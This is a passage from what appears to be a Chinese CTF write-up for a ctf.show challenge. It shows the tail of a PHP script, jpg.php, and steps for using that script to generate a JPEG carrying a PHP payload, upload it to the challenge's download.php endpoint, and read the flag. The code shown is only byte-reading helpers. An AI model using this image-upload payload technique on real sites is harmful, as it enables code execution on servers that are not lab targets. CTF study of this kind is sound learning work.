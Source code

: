```plain
            $this->binData = substr($this->binData, $skip);
        }
 
        public function readByte() {
            if($this->eof()) {
                die('End Of File');
            }
            $byte = substr($this->binData, 0, 1);
            $this->binData = substr($this->binData, 1);
            return ord($byte);
        }
 
        public function readShort() {
            if(strlen($this->binData) < 2) {
                die('End Of File');
            }
            $short = substr($this->binData, 0, 2);
            $this->binData = substr($this->binData, 2);
            if($this->order) {
                $short = (ord($short[1]) << 8) + ord($short[0]);
            } else {
                $short = (ord($short[0]) << 8) + ord($short[1]);
            }
            return $short;
        }
 
        public function eof() {
            return !$this->binData||(strlen($this->binData) === 0);
        }
    }
?>

把下载的图片放在php.exe目录下，运行php jpg.php php.jpg
```

![1645512956502-4dcf5085-dfa9-4752-9496-a2d0d7028130.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170958377-1689184417.png)

```plain
在当前目录会生成payload_php.jpg，上传：http://4b36fbb6-67f1-4b47-9356-152a44237d69.challenge.ctf.show/download.php?image=a7314796b4584785ab8bace146842307.jpg
但是发生了错误。所以不行，多试几次就可以了。
```

![1645513308178-0897acee-9e3e-40e7-84db-a9926c31daa6.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170958905-602159710.png)

```plain
上传访问正常的图片，然后就可以读取flag了
```

![1645513897373-d085f481-1970-4e3b-8f4f-2d7bcb678e04.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170959543-1444033324.png)

166
